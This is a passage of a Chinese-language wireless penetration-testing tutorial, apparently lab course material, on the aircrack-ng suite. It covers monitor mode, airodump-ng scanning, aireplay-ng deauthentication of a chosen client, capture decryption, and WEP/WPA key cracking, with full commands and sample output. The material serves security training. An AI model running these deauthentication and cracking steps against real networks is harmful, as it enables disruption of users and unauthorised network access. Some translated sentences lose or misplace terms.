a short period of time, you may want to kill (some of) them!

  PID Name
  718 NetworkManager
  870 dhclient
 1104 avahi-daemon
 1105 avahi-daemon
 1115 wpa_supplicant
```

如上输出所示，有 5 个干扰进程可能会通过更改信道或将接口重新置于托管模式来引发问题。如果我们在操作过程中遇到问题，可以使用 airmon-ng check kill 命令终止这些进程。

然而，需要注意的是，只有在渗透测试过程中遇到挑战时才应采取此步骤。

```shell
capybaralalale@htb[/htb]$ sudo airmon-ng check kill

Killing these processes:

  PID Name
  870 dhclient
 1115 wpa_supplicant
```

------

### 4.2.3 在特定通道上启动监控模式

也可以使用 将无线网卡设置为特定信道`airmon-ng`。我们可以在 wlan0 接口上启用监控模式时指定所需的信道。

```shell
capybaralalale@htb[/htb]$ sudo airmon-ng start wlan0 11

Found 5 processes that could cause trouble.
If airodump-ng, aireplay-ng or airtun-ng stops working after
a short period of time, you may want to kill (some of) them!

  PID Name
  718 NetworkManager
  870 dhclient
 1104 avahi-daemon
 1105 avahi-daemon
 1115 wpa_supplicant

PHY     Interface       Driver          Chipset

phy0    wlan0           rt2800usb       Ralink Technology, Corp. RT2870/RT3070
                (mac80211 monitor mode vif enabled for [phy0]wlan0 on [phy0]wlan0mon)
                (mac80211 station mode vif disabled for [phy0]wlan0)
```

上述命令将卡设置为通道 11 上的监控模式。这确保了`wlan0`接口在监控模式下专门在通道 11 上运行。

### 4.2.4 停止监控模式

`wlan0mon`我们可以使用命令停止接口上的监控模式`airmon-ng stop wlan0mon`。

```shell
capybaralalale@htb[/htb]$ sudo airmon-ng stop wlan0mon

PHY     Interface       Driver          Chipset

phy0    wlan0mon        rt2800usb       Ralink Technology, Corp. RT2870/RT3070
                (mac80211 station mode vif enabled on [phy0]wlan0)
                (mac80211 monitor mode vif disabled for [phy0]wlan0)
```

我们可以使用 iwconfig 实用程序测试我们的界面是否恢复到管理模式。

```shell
capybaralalale@htb[/htb]$ iwconfig

wlan0  IEEE 802.11  Mode:Managed  Frequency:2.457 GHz  Tx-Power=30 dBm   
          Retry short  long limit:2   RTS thr:off   Fragment thr:off
          Power Management:off
```

## 4.3 Airodump-ng

Airodump-ng 是一款用于捕获数据包的工具，专门捕获原始 802.11 帧。其主要功能是收集 WEP IV（初始化向量）或 WPA/WPA2 握手包，然后将其与 aircrack-ng 结合使用，以进行安全评估。

此外，airodump-ng 会生成多个文件，其中包含所有已识别接入点和客户端的全面信息。这些文件可用于编写脚本或开发个性化工具。

`airodump-ng`在扫描 WiFi 网络时提供丰富的信息。下表解释了每个字段及其说明：

| **场地**  | **描述**                                              |
| --------- | ----------------------------------------------------- |
| `BSSID`   | 显示接入点的 MAC 地址                                 |
| `PWR`     | 显示网络“强度”。数字越高，信号强度越好。              |
| `Beacons` | 显示网络发送的公告数据包的数量。                      |
| `#Data`   | 显示捕获的数据包数量。                                |
| `#/s`     | 显示过去十秒内捕获的数据包数量。                      |
| `CH`      | 显示网络运行的“频道”。                                |
| `MB`      | 显示网络支持的最大速度。                              |
| `ENC`     | 显示网络使用的加密方法。                              |
| `CIPHER`  | 显示网络使用的密码。                                  |
| `AUTH`    | 显示网络使用的身份验证。                              |
| `ESSID`   | 显示网络的名称。                                      |
| `STATION` | 显示连接到网络的客户端的 MAC 地址。                   |
| `RATE`    | 显示客户端和接入点之间的数据传输速率。                |
| `LOST`    | 显示丢失的数据包数量。                                |
| `Packets` | 显示客户端发送的数据包数量。                          |
| `Notes`   | 显示有关客户端的其他信息，例如捕获的 EAPOL 或 PMKID。 |
| `PROBES`  | 显示客户端正在探测的网络列表。                        |

要有效利用 airodump-ng，第一步是`monitor mode`在无线接口上激活。此模式允许接口捕获其附近的所有无线流量。我们可以使用`airmon-ng`在接口上启用监控模式，如上一节所示。

```shell
capybaralalale@htb[/htb]$ sudo airmon-ng start wlan0

Found 2 processes that could cause trouble.
Kill them using 'airmon-ng check kill' before putting
the card in monitor mode, they will interfere by changing channels
and sometimes putting the interface back in managed mode

    PID Name
    559 NetworkManager
    798 wpa_supplicant

PHY     Interface       Driver          Chipset

phy0    wlan0           rt2800usb       Ralink Technology, Corp. RT2870/RT3070
                (mac80211 monitor mode vif enabled for [phy0]wlan0 on [phy0]wlan0mon)
                (mac80211 station mode vif disabled for [phy0]wlan0)
```

```shell
capybaralalale@htb[/htb]$ iwconfig

eth0      no wireless extensions.

wlan0mon  IEEE 802.11  Mode:Monitor  Frequency:2.457 GHz  Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
          
lo        no wireless extensions.
```

启用监控模式后，我们可以`airodump-ng`通过指定目标无线接口的名称来运行，例如`airodump-ng wlan0mon`。此命令提示 airodump-ng 开始扫描并收集指定接口可检测到的无线接入点的数据。

生成的输出`airodump-ng wlan0mon`将显示一个结构化表，其中包含有关已识别的无线接入点的详细信息。

```shell
capybaralalale@htb[/htb]$ sudo airodump-ng wlan0mon

CH  9 ][ Elapsed: 1 min ][ 2007-04-26 17:41 ][
                                                                                                            
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                            
 00:09:5B:1C:AA:1D   11  16       10        0    0  11  54.  OPN              NETGEAR                         
 00:14:6C:7A:41:81   34 100       57       14    1  48  11e  WEP  WEP         bigbear 
 00:14:6C:7E:40:80   32 100      752       73    2   9  54   WPA  TKIP   PSK  teddy                             
                                                                                                            
 BSSID              STATION            PWR   Rate   Lost  Frames   Notes  Probes
                                
 00:14:6C:7A:41:81  00:0F:B5:32:31:31   51   36-24    2       14           bigbear 
 (not associated)   00:14:A4:3F:8D:13   19    0-0     0        4           mossy 
 00:14:6C:7A:41:81  00:0C:41:52:D1:D1   -1   36-36    0        5           bigbear 
 00:14:6C:7E:40:80  00:0F:B5:FD:FB:C2   35   54-54    0       99           teddy
 
```

从上面的输出中，我们可以看到有三个可用的 WiFi 网络或接入点 (AP)：、`NETGEAR`和`bigbear`。NETGEAR`teddy`具有 BSSID`00:09:5B:1C:AA:1D`并使用 OPN（开放）加密。Bigbear 具有 BSSID`00:14:6C:7A:41:81`并使用 WEP 加密。Teddy 具有 BSSID`00:14:6C:7E:40:80`并使用 WPA 加密。

下方显示的站点代表连接到 WiFi 网络的客户端。通过检查站点 ID 和 BSSID，我们可以确定哪个客户端连接到哪个 WiFi 网络。例如，具有站点 ID 的客户端`00:0F:B5:FD:FB:C2`已连接到`teddy`网络。

------

### 4.3.1 扫描特定频道或单个频道

该命令`airodump-ng wlan0mon`会启动全面扫描，收集所有`channels`可用无线网络中无线接入点的数据。不过，我们可以使用选项指定特定信道，`-c`将扫描范围缩小到特定频率。例如，`-c 11`会将扫描范围缩小到`channel 11`。这种有针对性的方法可以提供更精准的结果，尤其是在拥挤的 Wi-Fi 环境中。

单个通道示例：

```shell
capybaralalale@htb[/htb]$ sudo airodump-ng -c 11 wlan0mon

CH  11 ][ Elapsed: 1 min ][ 2024-05-18 17:41 ][
                                                                                                            
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                            
 00:09:5B:1C:AA:1D   11  16       10        0    0  11  54.  OPN              NETGEAR                         

 BSSID              STATION            PWR   Rate   Lost  Frames  Notes  Probes
                                
 (not associated)   00:0F:B5:32:31:31  -29    0      42        4
 (not associated)   00:14:A4:3F:8D:13  -29    0       0        4            
 (not associated)   00:0C:41:52:D1:D1  -29    0       0        5
 (not associated)   00:0F:B5:FD:FB:C2  -29    0       0       22           
```

也可以使用命令选择多个通道进行扫描`airodump-ng -c 1,6,11 wlan0mon`。

------

### 4.3.2 扫描 5 GHz Wi-Fi 频段

默认情况下，airodump-ng 配置为仅扫描在 2.4 GHz 频段运行的网络。但是，如果无线适配器兼容 5 GHz 频段，我们可以使用该选项指示 airodump-ng 将此频率范围纳入扫描范围。您可以[在此处](https://en.wikipedia.org/wiki/List_of_WLAN_channels)`--band`找到所有可用于 Wi-Fi 的 WLAN 信道和频段的列表。

支持的频段为 a、b 和 g。

- `a`使用 5 GHz
- `b`使用 2.4 GHz
- `g`使用 2.4 GHz

```shell
capybaralalale@htb[/htb]$ sudo airodump-ng wlan0mon --band a

CH  48 ][ Elapsed: 1 min ][ 2024-05-18 17:41 ][ 
                                                                                                            
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                            
 00:14:6C:7A:41:81   34 100       57       14    1  48  11e  WPA  TKIP        HTB                         

BSSID              STATION            PWR   Rate   Lost  Frames  Notes  Probes
                                
 (not associated)   00:0F:B5:32:31:31  -29    0      42        4
 (not associated)   00:14:A4:3F:8D:13  -29    0       0        4            
 (not associated)   00:0C:41:52:D1:D1  -29    0       0        5
 (not associated)   00:0F:B5:FD:FB:C2  -29    0       0       22           
```

使用该`--band`选项时，我们可以根据扫描需求灵活地指定单个频段或多个频段组合。例如，要扫描所有可用频段，我们可以执行命令。此命令指示 airodump-ng 同时扫描、和频段`airodump-ng --band abg wlan0mon`上的网络，从而提供指定无线接口 wlan0mon 可访问的无线环境的全面概览。`a``b``g`

------

### 4.3.3 将输出保存到文件

`airodump-ng`我们可以使用该参数来保存扫描结果`--write <prefix>`。此操作会生成多个具有指定前缀文件名的文件。例如，执行此操作`airodump-ng wlan0mon --write HTB`将在当前目录中生成以下文件。

- HTB-01.cap
- HTB-01.csv
- HTB-01.kismet.csv
- HTB-01.kismet.netxml
- HTB-01.log.csv

```shell
capybaralalale@htb[/htb]$ sudo airodump-ng wlan0mon -w HTB

11:32:13  Created capture file "HTB-01.cap".

CH  9 ][ Elapsed: 1 min ][ 2007-04-26 17:41 ][
                                                                                                            
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                            
 00:09:5B:1C:AA:1D   11  16       10        0    0  11  54.  OPN              NETGEAR                         
 00:14:6C:7A:41:81   34 100       57       14    1  48  11e  WEP  WEP         bigbear 
 00:14:6C:7E:40:80   32 100      752       73    2   9  54   WPA  TKIP   PSK  teddy                             
                                                                                                            
 BSSID              STATION            PWR   Rate   Lost  Frames   Notes  Probes
                                
 00:14:6C:7A:41:81  00:0F:B5:32:31:31   51   36-24    2       14           bigbear 
 (not associated)   00:14:A4:3F:8D:13   19    0-0     0        4           mossy 
 00:14:6C:7A:41:81  00:0C:41:52:D1:D1   -1   36-36    0        5           bigbear 
 00:14:6C:7E:40:80  00:0F:B5:FD:FB:C2   35   54-54    0       99           teddy
```

每次使用 airodump-ng 命令捕获 IV（初始化向量）或完整数据包时，它都会生成额外的文本文件并保存到磁盘上。这些文件与原始输出文件同名，并通过后缀进行区分：CSV 文件为“.csv”，Kismet CSV 文件为“.kismet.csv”，Kismet newcore netxml 文件为“.kismet.netxml”。这些生成的文件用途各异，有助于实现多种形式的数据分析，并与各种网络分析工具兼容。

```shell
capybaralalale@htb[/htb]$ ls

HTB-01.csv   HTB-01.kismet.netxml   HTB-01.cap   HTB-01.kismet.csv   HTB-01.log.csv 
```

## 4.4 Airgraph-ng

`Airgraph-ng`是一个 Python 脚本，用于使用 生成的 CSV 文件生成无线网络的图形表示`Airodump-ng`。这些来自 Airodump-ng 的 CSV 文件捕获了有关无线客户端与接入点 (AP) 之间关联以及被探测网络清单的重要数据。Airgraph-ng 处理这些 CSV 文件以生成两种不同类型的图表：

- 客户端到 AP 关系图：此图说明了无线客户端和接入点之间的连接，提供了对网络拓扑和设备之间交互的洞察。
- 客户端探测图：此图展示了无线客户端探测的网络，以直观的方式描述了这些设备扫描并可能访问的网络。

通过利用 Airgraph-ng，用户可以可视化和分析无线网络中的关系和交互，从而帮助进行网络故障排除、优化和安全评估。

------

### 4.4.1 客户端与 AP 关系图

客户端与 AP 关系 (CAPR) 图表展示了客户端与接入点 (AP) 之间的连接。由于此图表重点关注客户端，因此不会显示未连接客户端的 AP。

接入点根据其加密类型采用颜色编码：

- WPA 绿色
- 黄色代表 WEP
- 红色代表开放网络
- 黑色表示未知加密。

```shell
capybaralalale@htb[/htb]$ sudo airgraph-ng -i HTB-01.csv -g CAPR -o HTB_CAPR.png

**** WARNING Images can be large, up to 12 Feet by 12 Feet****
Creating your Graph using, HTB-01.csv and writing to, HTB_CAPR.png
Depending on your system this can take a bit. Please standby......
```



`HTB-01.csv `可以使用`airodump-ng -w HTB `上一节所示的命令获取该文件。

------

### 4.4.2 常见探测图

Airgraph-ng 中的通用探测图 (CPG) 可视化了无线客户端与其探测的接入点 (AP) 之间的关系。它通过显示客户端发出的探测信息，来显示每个客户端正在尝试连接的 AP。即使客户端当前尚未连接到任何 AP，此图也能帮助识别哪些客户端正在探测哪些网络。

```shell
capybaralalale@htb[/htb]$ sudo airgraph-ng -i HTB-01.csv -g CPG -o HTB_CPG.png

**** WARNING Images can be large, up to 12 Feet by 12 Feet****
Creating your Graph using, HTB-01.csv and writing to, HTB_CPG.png
Depending on your system this can take a bit. Please standby......
```



## 4.5 Aireplay-ng

[Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)的主要功能是生成流量，供 aircrack-ng 随后用于破解 WEP 和 WPA-PSK 密钥。存在多种攻击方式，例如：为了捕获 WPA 握手数据而取消身份验证、伪造身份验证、交互式数据包重放、手动编写的 ARP 请求注入以及 ARP 请求重新注入。使用 packetforge-ng 工具可以创建任意帧。

要列出所有功能，`aireplay-ng`我们使用以下命令。

```shell
capybaralalale@htb[/htb]$ aireplay-ng

 Attack modes (numbers can still be used):
...
      --deauth      count : deauthenticate 1 or all stations (-0)
      --fakeauth    delay : fake authentication with AP (-1)
      --interactive       : interactive frame selection (-2)
      --arpreplay         : standard ARP-request replay (-3)
      --chopchop          : decrypt/chopchop WEP packet (-4)
      --fragment          : generates valid keystream   (-5)
      --caffe-latte       : query a client for new IVs  (-6)
      --cfrag             : fragments against a client  (-7)
      --migmode           : attacks WPA migration mode  (-8)
      --test              : tests injection and quality (-9)

      --help              : Displays this usage screen
```

它目前实施了多种不同的攻击：

| **攻击**   | **攻击名称**         |
| ---------- | -------------------- |
| `Attack 0` | 取消身份验证         |
| `Attack 1` | 虚假认证             |
| `Attack 2` | 交互式数据包重放     |
| `Attack 3` | ARP请求重放攻击      |
| `Attack 4` | KoreK chopchop 攻击  |
| `Attack 5` | 碎片攻击             |
| `Attack 6` | 咖啡拿铁攻击         |
| `Attack 7` | 面向客户端的碎片攻击 |
| `Attack 8` | WPA迁移模式          |
| `Attack 9` | 注射测试             |

我们可以看到，取消身份验证的标志是`-0`或`--deauth`。在本模块中，我们将重点介绍这种`deauthentication`攻击。这种攻击可用于断开客户端与接入点 (AP) 的连接。通过使用`aireplay-ng`，我们可以`deauthentication`向 AP 发送数据包。AP 会误以为这些取消身份验证请求来自客户端本身，而实际上，这些请求是我们发送的。

------

### 4.5.1 数据包注入测试

在发送解除认证帧之前，务必验证我们的无线网卡能否成功将帧注入目标接入点 (AP)。这可以通过测量 AP 的 ping 响应时间来测试，该响应时间可以根据收到的响应百分比来判断链路质量。此外，如果我们使用两张无线网卡，此测试可以帮助确定哪张网卡更容易进行注入攻击。

让我们启用监控模式，并将接口的通道设置为 1。我们可以使用 airmon-ng 命令执行此操作`airmon-ng start wlan0 1`。或者，我们也可以使用以下`iw`命令设置通道，如下所示：

```shell
capybaralalale@htb[/htb]$ sudo iw dev wlan0mon set channel 1
```

一旦我们的接口处于监控模式，我们就可以很容易地测试它是否存在数据包注入。我们可以如下使用 Aireplay-ng 的测试模式。

```shell
capybaralalale@htb[/htb]$ sudo aireplay-ng --test wlan0mon

12:34:56  Trying broadcast probe requests...
12:34:56  Injection is working!
12:34:56  Found 27 APs
12:34:56  Trying directed probe requests...
12:34:56   00:09:5B:1C:AA:1D - channel: 1 - 'TOMMY'
12:34:56  Ping (min/avg/max): 0.457ms/1.813ms/2.406ms Power: -48.00
12:34:56  30/30: 100%
<SNIP>
```

如果一切正常，我们应该会看到这条消息，`Injection is working!`这表明我们的接口支持数据包注入，我们已准备好执行`aireplay-ng`取消身份验证攻击。

------

### 4.5.2 使用 Aireplay-ng 执行解除身份验证

首先，让我们使用 airodump-ng 查看可用的 WiFi 网络，也称为接入点 (AP)。

```shell
capybaralalale@htb[/htb]$ sudo airodump-ng wlan0mon

CH  1 ][ Elapsed: 1 min ][ 2007-04-26 17:41 ][
                                                                                                            
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                            
 00:09:5B:1C:AA:1D   11  16       10        0    0   1  54.  OPN              TOMMY                         
 00:14:6C:7A:41:81   34 100       57       14    1   1  11e  WPA  TKIP   PSK  HTB 
 00:14:6C:7E:40:80   32 100      752       73    2   1  54   WPA  TKIP   PSK  jhony                             

 BSSID              STATION            PWR   Rate   Lost  Frames   Notes  Probes

 00:14:6C:7A:41:81  00:0F:B5:32:31:31   51   36-24    2       14           HTB 
 (not associated)   00:14:A4:3F:8D:13   19    0-0     0        4            
 00:14:6C:7A:41:81  00:0C:41:52:D1:D1   -1   36-36    0        5           HTB 
 00:14:6C:7E:40:80  00:0F:B5:FD:FB:C2   35   54-54    0       99           jhony
```

从上面的输出中，我们可以看到有三个可用的 WiFi 网络，并且`two clients`连接到名为 的网络`HTB`。让我们向其中一个工作站 ID 为 的客户端发送一个取消认证请求`00:0F:B5:32:31:31`。

```shell
capybaralalale@htb[/htb]$ sudo aireplay-ng -0 5 -a 00:14:6C:7A:41:81 -c 00:0F:B5:32:31:31 wlan0mon

11:12:33  Waiting for beacon frame (BSSID: 00:14:6C:7A:41:81) on channel 1
11:12:34  Sending 64 directed DeAuth (code 7). STMAC: [00:0F:B5:32:31:3] [ 0| 0 ACKs]
11:12:34  Sending 64 directed DeAuth (code 7). STMAC: [00:0F:B5:32:31:3] [ 0| 0 ACKs]
11:12:35  Sending 64 directed DeAuth (code 7). STMAC: [00:0F:B5:32:31:3] [ 0| 0 ACKs]
11:12:35  Sending 64 directed DeAuth (code 7). STMAC: [00:0F:B5:32:31:3] [ 0| 0 ACKs]
11:12:36  Sending 64 directed DeAuth (code 7). STMAC: [00:0F:B5:32:31:3] [ 0| 0 ACKs]
```

- `-0`意味着取消认证
- `5`是要发送的取消认证次数（如果您愿意，可以发送多个）；`0`意味着连续发送它们
- `-a 00:14:6C:7A:41:81`是接入点的 MAC 地址
- `-c 00:0F:B5:32:31:31`是要取消身份验证的客户端的 MAC 地址；如果省略，则所有客户端都将取消身份验证
- `wlan0mon`是接口名称

一旦客户端从 AP 取消身份验证，我们就可以继续观察`airodump-ng`它们何时重新连接。

```shell
capybaralalale@htb[/htb]$ sudo airodump-ng wlan0mon

CH  1 ][ Elapsed: 1 min ][ 2007-04-26 17:41 ][ WPA handshake: 00:14:6C:7A:41:81
                                                                                                            
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                            
 00:09:5B:1C:AA:1D   11  16       10        0    0   1  54.  OPN              TOMMY                         
 00:14:6C:7A:41:81   34 100       57       14    1   1  11e  WPA  TKIP   PSK  HTB 
 00:14:6C:7E:40:80   32 100      752       73    2   1  54   WPA  TKIP   PSK  jhony                             

 BSSID              STATION            PWR   Rate   Lost  Frames   Notes  Probes

 00:14:6C:7A:41:81  00:0F:B5:32:31:31   51   36-24   212     145   EAPOL  HTB 
 (not associated)   00:14:A4:3F:8D:13   19    0-0      0       4            
 00:14:6C:7A:41:81  00:0C:41:52:D1:D1   -1   36-36     0       5          HTB 
 00:14:6C:7E:40:80  00:0F:B5:FD:FB:C2   35   54-54     0       9          jhony
```

在上面的输出中，我们可以看到，在发送取消认证数据包后，客户端断开连接，然后重新连接。`Lost`数据包和`Frames`计数的增加证明了这一点。

此外，a`four-way handshake`会被捕获`airodump-ng`，如输出所示。通过使用`-w`airodump-ng 中的选项，我们可以将捕获的 WPA 握手保存到`.pcap`文件中。该文件随后可用于`aircrack-ng`破解预共享密钥 (PSK) 等工具。我们将在接下来的 aircrack-ng 部分介绍 aircrack-ng 及其破解 PSK 的过程。

`WPA handshake`在实验室环境中，客户端每隔几秒就会不断重新连接到 AP。因此，无需发送取消身份验证请求即可捕获。

## 4.6 Airdecap-ng

[Airdecap-ng](https://www.aircrack-ng.org/doku.php?id=airdecap-ng)是一款实用工具，用于在接入`key`网络后解密无线捕获文件。它可以解密`WEP`、`WPA PSK`和`WPA2 PSK`捕获。此外，它还可以从`unencrypted`捕获文件中删除无线标头。此工具在分析捕获数据包中的数据时特别有用，因为它可以使内容可读并删除不必要的无线协议信息。

Airdecap-ng 可用于以下用途：

- 从开放网络捕获（未加密捕获）中删除无线标头。
- 使用十六进制 WEP 密钥解密 WEP 加密的捕获文件。
- 使用密码解密 WPA/WPA2 加密的捕获文件。

------

### 4.6.1 使用 Airdecap-ng

代码：用法

```usage
airdecap-ng [options] <pcap file>
```

| **选项** | **描述**                       |
| -------- | ------------------------------ |
| `-l`     | 不要删除 802.11 标头           |
| `-b`     | 接入点 MAC 地址过滤器          |
| `-k`     | 十六进制的 WPA/WPA2 成对主密钥 |
| `-e`     | 目标网络 ASCII 标识符          |
| `-p`     | 目标网络 WPA/WPA2 密码         |
| `-w`     | 目标网络 WEP 密钥（十六进制）  |

`Airdecap-ng`生成一个后缀为 的新文件`-dec.cap,`，其中包含原始输入文件的解密或剥离版本。例如，名为 的输入文件`HTB-01.cap`将生成一个名为 的未加密输出文件`HTB-01-dec.cap`。

`airodump-ng`如下所示，在使用 Wireshark创建并打开的加密捕获文件中，`Protocol`仅显示 选项卡`802.11`，而未指定消息的实际协议。同样，该`Info`选项卡未提供任何有意义的信息。此外，`source`和`destination`字段仅包含 MAC 地址，而不是相应的 IP 地址。



相反，在使用的解密捕获文件中`airdecap-ng`，观察`Protocol`选项卡如何显示正确的协议，例如 ARP、TCP、DHCP、HTTP 等。此外，请注意`Info`选项卡如何提供更详细的信息，并正确显示`source`和`destination`IP 地址。



------

### 4.6.2 从未加密的捕获文件中删除无线标头

在开放网络上捕获数据包会生成一个`unencrypted`捕获文件。即使捕获文件已经解密，它仍然可能包含大量与我们的分析无关的帧。为了精简数据，我们可以`airdecap-ng`从未加密的捕获文件中移除无线报头。

要使用 Airdecap-ng 从捕获文件中删除无线标头，我们可以使用以下命令：

代码：用法

```usage
airdecap-ng -b <bssid> <capture-file>
```

代替接入点的 MAC 地址和与捕获文件的名称相同。

```shell
capybaralalale@htb[/htb]$ sudo airdecap-ng -b 00:14:6C:7A:41:81 opencapture.cap

Total number of stations seen            0
Total number of packets read           251
Total number of WEP data packets         0
Total number of WPA data packets         0
Number of plaintext data packets         0
Number of decrypted WEP  packets         0
Number of corrupted WEP  packets         0
Number of decrypted WPA  packets         0
Number of bad TKIP (WPA) packets         0
Number of bad CCMP (WPA) packets         0
```

这将生成一个带有后缀的解密文件`-dec.cap`，例如`opencapture-dec.cap`，其中包含可供进一步分析的精简数据。

------

### 4.6.3 解密 WEP 加密的捕获

Airdecap-ng 是一款强大的工具，可用于解密 WEP 加密的捕获文件。一旦我们获得了十六进制的`WEP key`，就可以用它来解密捕获的数据包。此过程将删除无线加密，使我们能够分析数据。

要使用 Airdecap-ng 解密 WEP 加密的捕获文件，我们可以使用以下命令：

代码：用法

```usage
airdecap-ng -w <WEP-key> <capture-file>
```

将 <WEP-key> 替换为十六进制 WEP 密钥，并与捕获文件的名称相同。

例如：

```shell
capybaralalale@htb[/htb]$ sudo airdecap-ng -w 1234567890ABCDEF HTB-01.cap

Total number of stations seen            6
Total number of packets read           356
Total number of WEP data packets       235
Total number of WPA data packets       121
Number of plaintext data packets         0
Number of decrypted WEP  packets         0
Number of corrupted WEP  packets         0
Number of decrypted WPA  packets       235
Number of bad TKIP (WPA) packets         0
Number of bad CCMP (WPA) packets         0
```

这将生成一个带有后缀的解密文件`-dec.cap`，例如`HTB-01-dec.cap`，其中包含可供进一步分析的未加密数据。

### 4.6.4 解密 WPA 加密的捕获

如果我们有 ，Airdecap-ng 还可以解密 WPA 加密的捕获文件。`passphrase`此工具将剥离 WPA 加密，从而可以分析捕获的数据。

要使用 Airdecap-ng 解密 WPA 加密的捕获文件，我们可以使用以下命令：

```usage
airdecap-ng -p <passphrase> <capture-file> -e <essid>
```

代替使用 WPA 密码，捕获文件的名称和使用相应网络的 ESSID 名称。

例如：

```shell
capybaralalale@htb[/htb]$ sudo airdecap-ng -p 'abdefg' HTB-01.cap -e "Wireless Lab"

Total number of stations seen            6
Total number of packets read           356
Total number of WEP data packets       235
Total number of WPA data packets       121
Number of plaintext data packets         0
Number of decrypted WEP  packets         0
Number of corrupted WEP  packets         0
Number of decrypted WPA  packets       121
Number of bad TKIP (WPA) packets         0
Number of bad CCMP (WPA) packets         0
```

这将生成一个带有后缀的解密文件`-dec.cap`，例如`HTB-01-dec.cap`，其中包含可供进一步分析的未加密数据。

## 4.7 Aircrack-ng

Aircrack-ng 是一款专为网络安全测试而设计的强大工具，能够破解使用预共享密钥或 PMKID 的 WEP 和 WPA/WPA2 网络。Aircrack-ng 是一款离线攻击工具，因为它使用捕获的数据包，无需与任何 Wi-Fi 设备直接交互。

------

### 4.7.1 Aircrack-ng 基准测试

在使用 Aircrack-ng 开始密码破解之前，必须评估主机系统的基准测试，以确保其能够有效执行暴力破解攻击。Aircrack-ng 有一个基准测试模式来测试 CPU 性能。我们将从基准测试开始，评估我们破解系统的性能。

```shell
capybaralalale@htb[/htb]$ aircrack-ng -S

1628.101 k/s
```

以上输出估计我们的 CPU 每秒可以破解大约 1,628.101 个密码。由于`Aircrack-ng`CPU 已完全利用，如果系统同时运行其他高负载任务，破解速度可能会显著降低。

------

### 4.7.2 破解WEP

一旦使用 Airodump-ng 捕获到足够数量的加密数据包，Aircrack-ng 就能恢复 WEP 密钥。可以使用`--ivs`Airodump-ng 中的选项仅保存捕获的 IV（初始化向量）。捕获到足够多的 IV 后，我们就可以利用`-K`Aircrack-ng 中的选项，调用 Korek WEP 破解方法来破解 WEP 密钥。

```shell
capybaralalale@htb[/htb]$ aircrack-ng -K HTB.ivs 

Reading packets, please wait...
Opening HTB.ivs
Read 567298 packets.

   #  BSSID              ESSID                     Encryption

   1  D2:13:94:21:7F:1A                            WEP (0 IVs)

Choosing first network as target.

Reading packets, please wait...
Opening HTB.ivs
Read 567298 packets.

1 potential targets

                                             Aircrack-ng 1.6 


                               [00:00:17] Tested 1741 keys (got 566693 IVs)

   KB    depth   byte(vote)
    0    0/  1   EB(  50) 11(  20) 71(  20) 0D(  12) 10(  12) 68(  12) 84(  12) 0A(   9) 
    1    1/  2   C8(  31) BD(  18) F8(  17) E6(  16) 35(  15) 7A(  13) 7F(  13) 81(  13) 
    2    0/  3   7F(  31) 74(  24) 54(  17) 1C(  13) 73(  13) 86(  12) 1B(  10) BF(  10) 
    3    0/  1   3A( 148) EC(  20) EB(  16) FB(  13) 81(  12) D7(  12) ED(  12) F0(  12) 
    4    0/  1   03( 140) 90(  31) 4A(  15) 8F(  14) E9(  13) AD(  12) 86(  10) DB(  10) 
    5    0/  1   D0(  69) 04(  27) 60(  24) C8(  24) 26(  20) A1(  20) A0(  18) 4F(  17) 
    6    0/  1   AF( 124) D4(  29) C8(  20) EE(  18) 3F(  12) 54(  12) 3C(  11) 90(  11) 
    7    0/  1   DA( 168) 90(  24) 72(  22) F5(  21) 11(  20) F1(  20) 86(  17) FB(  16) 
    8    0/  1   F6( 157) EE(  24) 66(  20) DA(  18) E0(  18) EA(  18) 82(  17) 11(  16) 
    9    1/  2   7B(  44) E2(  30) 11(  27) DE(  23) A4(  20) 66(  19) E9(  18) 64(  17) 
   10    1/  1   01(   0) 02(   0) 03(   0) 04(   0) 05(   0) 06(   0) 07(   0) 08(   0) 

             KEY FOUND! [ EB:C8:7F:3A:03:D0:AF:DA:F6:8D:A5:E2:C7 ] 
	Decrypted correctly: 100%
```

------

### 4.7.3 破解WPA

一旦使用 Airodump-ng 捕获“四次握手”，Aircrack-ng 就能破解 WPA 密钥。要破解 WPA/WPA2 预共享密钥，只能采用基于字典的方法，这需要使用包含潜在密码的字典。“四次握手”是必需的输入。对于 WPA 握手，完整的握手包含四个数据包。然而，Aircrack-ng 仅需两个数据包即可有效运行。具体来说，EAPOL 数据包 2 和 3，或数据包 3 和 4，都被视为完整的握手。

```shell
capybaralalale@htb[/htb]$ aircrack-ng HTB.pcap -w /opt/wordlist.txt

Reading packets, please wait...
Opening HTB.pcap
Read 1093 packets.

   #  BSSID              ESSID                     Encryption

   1  2D:0C:51:12:B2:33  HTB-Wireless              WPA (1 handshake, with PMKID)
   2  DA:28:A7:B7:30:84                            Unknown
   3  53:68:F7:B7:51:B9                            Unknown
   4  95:D1:46:23:5A:DD                            Unknown


Index number of target network ? 1

Reading packets, please wait...
Opening HTB.pcap
Read 1093 packets.

1 potential targets

                               Aircrack-ng 1.6 

      [00:00:00] 802/14344392 keys tested (2345.32 k/s) 

      Time left: 1 hour, 41 minutes, 55 seconds                  0.01%

                           KEY FOUND! [ HTB@123 ]


      Master Key     : A2 88 FC F0 CA AA CD A9 A9 F5 86 33 FF 35 E8 99 
                       2A 01 D9 C1 0B A5 E0 2E FD F8 CB 5D 73 0C E7 BC 

      Transient Key  : 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 

      EAPOL HMAC     : A4 62 A7 02 9A D5 BA 30 B6 AF 0D F3 91 98 8E 45 
```

# 5 查找隐藏的 SSID

------

## 5.1 观察隐藏的网络

首先，我们需要将我们的接口设置为监控模式。


```shell
capybaralalale@htb[/htb]$ sudo airmon-ng start wlan0

Found 2 processes that could cause trouble.
